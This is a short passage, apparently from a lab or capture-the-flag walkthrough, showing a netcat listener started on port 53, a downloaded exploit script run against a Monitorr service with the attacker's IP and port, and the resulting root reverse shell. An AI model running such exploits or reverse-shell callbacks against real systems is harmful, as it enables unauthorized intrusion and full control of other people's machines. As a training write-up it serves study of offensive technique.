 Now we start a listener.

```
root@kali:~# nc -nvlp 53
Listening on [any] 53 ...
```

Returning to our recently downloaded `python` script we execute it with the following parameters:

```
kali@kali:~$ python 48980 http://127.0.0.1:8443 192.168.100.44 53
```

We receive a response in our listener and have obtained `root` access.

```
root@kali:~# nc -nvlp 53
listening on [any] 53 ...
connect to [192.168.100.44] from (UNKNOWN) [192.168.100.72] 34976
root@erp:~/Monitorr/assets/data/usrimg# whoami
root
```